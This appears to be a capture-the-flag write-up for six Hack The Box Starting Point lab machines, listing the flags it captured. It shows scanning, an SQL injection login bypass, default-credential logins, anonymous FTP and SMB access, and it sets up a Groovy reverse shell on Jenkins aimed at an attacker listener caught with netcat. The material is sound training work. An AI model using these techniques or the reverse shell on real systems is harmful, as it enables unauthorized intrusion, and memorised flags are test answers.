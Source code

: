 # HTB-Tier-1-CTF

## STARTING POINT Tier 1 Machines

https://app.hackthebox.com/starting-point

# Appointment 

Use nmap to scan for open ports : sudo nmap -sS -sV 10.129.117.169  

	PORT   STATE SERVICE VERSION

	80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Use sudo gobuster dir -u http://10.129.117.169 -w /usr/share/wordlists/dirb/common.txt to find any info 

Nothing special came out

Head to the website and a login page will appear

From the clue given in the question use SQL injection ('#) to comment on the code

Try username : admin'# and password: password123 to get the flag

###### 🏴‍☠️ HTB{e3d0796d002a446c0e622226f42e9672} 


# Sequel

**Use nmap to scan for open ports : sudo nmap -sS -sV 10.129.121.245** 

	PORT     STATE SERVICE

	3306/tcp open  mysql

mysql -h 10.129.121.245 -u root 

**Use the following commands to explore the database :**

	SHOW databases;

	SHOW tables;

	SELECT * FROM config;

###### 🏴‍☠️ HTB{7b4bec00d1a39e3dd4e021ec3d915da8} 

# Crocodile

**Use nmap to scan for open ports : sudo nmap -sC -sV 10.129.115.58** 

	PORT   STATE SERVICE VERSION

	21/tcp open  ftp     vsftpd 3.0.3

	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Connect to the FTP server via anonymous : ftp 10.129.115.58

GET both files 

Head to the webserver and install Wappalyzer to see technologies used on the website

**Use gobuster to find more clues : gobuster dir --url http://10.129.115.58 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html**

	/login.php            (Status: 200) [Size: 1577]

head to the login.php page and login with admin and last password found on the ftp server file 

###### 🏴‍☠️ HTB{c7110277ac44d78b6a9fff2232434d16}

# Ignition 

**Use nmap to scan for open ports : sudo nmap -sS -sC -sV 10.129.131.144**  

	PORT   STATE SERVICE VERSION

	80/tcp open  http    nginx 1.14.2

curl -v http://10.129.131.144

echo "10.129.131.144 ignition.htb" | sudo tee -a /etc/hosts  

cat /etc/hosts 

**gobuster dir --url http://ignition.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt**
	
	/admin                (Status: 200) [Size: 7092]

Head to the link and a login page will appear

After trying common passwords : username - admin password - qwerty123

###### 🏴‍☠️ HTB{797d6c988d9dc5865e010b9410f247e0}

# Pennyworth

**Use nmap to scan for open ports : sudo nmap -sS -sC -sV 10.129.131.150**

	PORT     STATE SERVICE VERSION

	8080/tcp open  http    Jetty 9.4.39.v20210325

Head to http://10.129.131.150:8080

Google search Jenkins default password and try them out : user - root , password - password

http://10.129.131.150:8080/script

**Head to https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md** 

Find the Groovy reverse shell script 

**start a netcat : nc -lvpn** 

Change the ip , host and cmd file and run the script :

	String host="10.10.14.5";

	int port=8000;

	String cmd="/bin/bash";

netcat will start a session, cd to root and cat the final flag

###### 🏴‍☠️ HTB{9cdfb439c7876e703e307864c9167a15} 

# Tactics 

**Use nmap to scan for open ports : sudo nmap -sS -sC -sV 10.129.131.167**

	PORT    STATE SERVICE       VERSION

	135/tcp open  msrpc         Microsoft Windows RPC

	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn

	445/tcp open  microsoft-ds?

**smbclient -L 10.129.131.167 -U Administrator** 

	Sharename       Type      Comment

        ---------       ----      -------
        ADMIN$          Disk      Remote Admin

        C$              Disk      Default share

        IPC$            IPC       Remote IPC

**smbclient \\\\10.129.131.167\\C$ -U Administrator** 

dir Users\Administrator\Desktop to get the flag

###### 🏴‍☠️ HTB{f751c19eda8f61ce81827e6930a1f40c}
